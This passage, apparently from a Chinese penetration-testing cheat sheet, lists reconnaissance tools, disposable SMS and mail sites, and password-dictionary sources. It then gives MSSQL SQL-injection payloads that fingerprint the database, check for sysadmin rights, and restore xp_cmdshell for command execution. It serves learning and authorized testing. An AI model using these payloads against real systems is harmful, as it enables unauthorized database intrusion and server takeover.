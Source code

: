 ### 端口扫描

- 端口查询
```
利用masscan来扫描全端口，再调用nmap来扫描端口开启的服务，扫完端口后我们可以写个脚本来解析nmap的扫描结果，将开放的端口提取出来 
```

### 其他

- 邮箱挖掘
```
通过TheHarvester可以进行邮箱挖掘 
```
- 厂商业务收集
```
除了web端的信息收集以外，app和公众号也是我们不可忽视的一点，很多大的漏洞往往就在app端或者公众号上，收集厂商app的方法，一般我是利用crunchbase来进行app的收集的，除了app，公众号也可以通过天眼查和微信自身的搜索功能进行收集的。 
利用云网盘搜索工具搜集敏感文件https://www.lingfengyun.com/ 
```
- 免费接码
```
http://www.smszk.com/
http://www.z-sms.com/
https://getfreesmsnumber.com/
https://www.freeonlinephone.org/
http://mail.bccto.me/
http://24mail.chacuo.net/
```
- 几个生成字典方式
```
https://github.com/rootphantomer/Blasting_dictionary
https://www.itxueke.com/tools/pass/#
http://xingchen.pythonanywhere.com/index
https://github.com/LandGrey/pydictor
https://www.somd5.com/download/dict/
```		
		
## 注入基础
> **mssql、mysql、oracle 相关注入基础语句** 

### mssql注入

#### mssql布尔注入

- 判断版本号
```
' aNd @@version LIKE '%2015%'--+	
```
- 如果存在，返回 true说明后台数据库是MSSQL，否则返回 false**
```
' and exists(select * from sysobjects)--+	
```
- 判断当前是否为sa
```
' and exists(select is_srvrolemember('sysadmin'))--+	
```
- 判断有没有xp_cmdshell扩展
```
' and (select count(*) FROM master. dbo.sysobjects Where xtype ='X' AND name = 'xp_cmdshell')>0--+	
```
- 恢复xp_cmdshell
```
';dbcc addextendedproc ("sp_oacreate","odsole70.dll")
';dbcc addextendedproc ("xp_cmdshell","xplog70.dll")
或
';exec sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'--+
```